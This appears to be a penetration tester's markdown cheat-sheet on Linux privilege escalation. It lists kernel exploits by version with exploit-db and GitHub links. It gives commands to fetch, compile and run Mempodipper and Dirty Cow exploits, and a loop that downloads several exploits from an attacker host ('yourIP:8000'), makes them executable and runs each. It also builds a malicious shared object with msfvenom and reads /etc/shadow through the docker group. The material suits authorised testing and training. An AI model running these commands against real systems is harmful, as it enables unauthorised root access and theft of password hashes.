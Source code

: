### Linux Kernel exploits

#### xploit_installer.py

The following script runs exploit suggester and automatically downloads and executes suggested exploits:

	wget https://raw.githubusercontent.com/wwong99/pentest-notes/master/scripts/xploit_installer.py
	USAGE: xploit_installer.py <exploit id>

#### Kernelpop

Automated kernel vulnerability enumeration and exploitation

	https://github.com/spencerdodd/kernelpop
#### Linux Local Exploit

	linux-exploit-suggester
	
	unix_privesc_check
	
	kernel 2.4.x / 2.6.x (sock_sendpage 1)
	
	kernel 2.4 / 2.6 (sock_sendpage 2)
	
	kernel < 2.6.22 (ftruncate)
	
	kernel < 2.6.34 (cap_sys_admin)
	
	kernel 2.6.27 < 2.6.36 (compat)
	
	kernel < 2.6.36-rc1 (can bcm)
	
	kernel <= 2.6.36-rc8 (rds protocol)
	
	kernel < 2.6.36.2 (half nelson)
	
	kernel <= 2.6.37 (full nelson)
	
	kernel 2.6 (udev)
	
	kernel 3.13 (sgid)
	
	kernel 3.13.0 < 3.19 (overlayfs 1)
	
	kernel 3.14.5 (libfutex)
	
	kernel 2.6.39 <= 3.2.2 (mempodipper)
	
	kernel 2.6.28 / 3.0 (alpha-omega)
	
	kernel 2.6.22 < 3.9 (Dirty Cow)
	
	kernel 3.7.6 (msr)
	
	kernel < 3.8.9 (perf_swevent_init)
	
	kernel <= 4.3.3 (overlayfs 2)
	
	kernel 4.3.3 (overlayfs 3)
	
	kernel 4.4.0 (af_packet)
	
	kernel 4.4.x (double-fdput)
	
	kernel 4.4.0-21 (netfilter)
	
	kernel 4.4.1 (refcount)



#### Kernel Exploits repositories
	https://github.com/SecWiki/linux-kernel-exploits
	http://exploit-db.com/
	https://github.com/lucyoa/kernel-exploits
### Shared Object Library Loading exploitation
#### Identify vulnerability
	ldd /usr/local/bin/program
	objdump -x usr/local/bin/program | grep RPATH
	objdump -x usr/local/bin/program | grep RUNPATH
#### Create malicious .so file
	msfvenom -p [payload] [OPTIONS] -a [arch] -f elf-so -o program.so
	transfer file into victim machine in the suitable directory
	start listener


### Unix Socket exploitation

#### Requirements
	unpriviledged user
	user in docker group
	docker running on unix socket
	docker daemon always runs as the root user
#### Exploit
	docker run -v /etc/shadow:/docker/hashedpassowrds -d postgres -> [Container ID]
	docker exec -ti [Container ID] bash
#### Other examples
	www.exploit-db.com/exploits/40962
	github.com/rapid7/metasploit-framework/pull/9408/files

### Other exploits

- Linux Kernel 2.6.39 - 3.2.2 (Gentoo / Ubuntu x86/x64) - 'Mempodipper' Local Privilege Escalation:
    
    - https://www.exploit-db.com/exploits/18411/
        
    - https://www.securityfocus.com/bid/51625/info
        
    - CVE-2012-0056
        
    

- Linux Kernel 2.6.22 - 3.9 (x86/x64) - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (SUID Method):
    
    - https://www.exploit-db.com/exploits/40616/
        
    - CVE-2016-5195
        
    

- Linux Kernel 2.2.x/2.4.x (RedHat) - 'ptrace/kmod' Local Privilege Escalation
    
    - https://www.exploit-db.com/exploits/3/
        
    - http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
        
    - CVE-2003-0127
        
    

- Linux Kernel 2.6 (Debian 4.0 / Ubuntu / Gentoo) UDEV below 1.4.1 - Local Privilege Escalation (1)
    
    - https://www.exploit-db.com/exploits/8478/
        
    - exploit/linux/local/udev_netlink
        
    

### Exploits worth running

- Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation
    
	    https://www.exploit-db.com/exploits/37292
    

- CVE-2010-3904 - Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8
    

		https://www.exploit-db.com/exploits/15285/

- Linux Kernel <= 2.6.37 'Full-Nelson.c'
    

		https://www.exploit-db.com/exploits/15704/

- CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)
    

		https://git.zx2c4.com/CVE-2012-0056/about/

- Linux CVE 2012-0056
    

		wget -O exploit.c <http://www.exploit-db.com/download/18411>
		
		gcc -o mempodipper exploit.c
		
		./mempodipper

- CVE-2016-5195 - Dirty Cow - Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8
    

		https://dirtycow.ninja/

- Compile dirty cow:
    

		g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil

- Cross compiling exploits
    

		gcc -m32 -o output32 hello.c #(32 bit)
		
		gcc -m64 -o output hello.c # (64 bit)

- Linux 2.6.32
    

		https://www.exploit-db.com/exploits/15285/

- Elevation in 2.6.x:
    

		for a in 9352 9513 33321 15774 15150 15944 9543 33322 9545 25288 40838 40616 40611 ; do wget http://yourIP:8000/$a; chmod +x $a; ./$a; id; done

### See linux exploitation scripts
[[6 Linux Post Exploitation Scripts]]
